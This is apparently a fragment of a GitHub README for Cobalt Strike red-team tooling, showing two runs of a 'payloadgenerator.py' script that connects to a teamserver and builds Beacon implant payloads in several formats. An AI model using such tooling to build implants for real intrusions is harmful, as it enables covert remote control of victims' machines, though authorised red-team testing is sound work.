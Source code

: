 ```

$python3 payloadgenerator.py 127.0.0.1 50050 payloads password /path/to/cobaltstrike -o /share/payloads/ -c indirect -a x64 -t exe
------------------------
Beacon Payload Generator
------------------------
[*] Connecting to teamserver: 127.0.0.1
Loading cna scripts from ./payload_scripts

Scripts
-------
arsenal_kit.cna
console.cna

[*] Creating stageless payloads for listener: http1
[*] Creating http1.x64.exe

$python3 payloadgenerator.py 127.0.0.1 50050 payloads password /path/to/cobaltstrike -o /share/payloads/
------------------------
Beacon Payload Generator
------------------------
[*] Connecting to teamserver: 127.0.0.1
Loading cna scripts from ./payload_scripts

Scripts
-------
arsenal_kit.cna
console.cna

[*] Creating stageless payloads for listener: http1
[*] Creating http1.x86.exe
[*] Creating http1.x86.dll
[*] Creating http1.x86.bin
[*] Creating http1.x64.exe
[*] Creating http1.x64.dll
[*] Creating http1.x64.bin
```
### Beacon Grapher
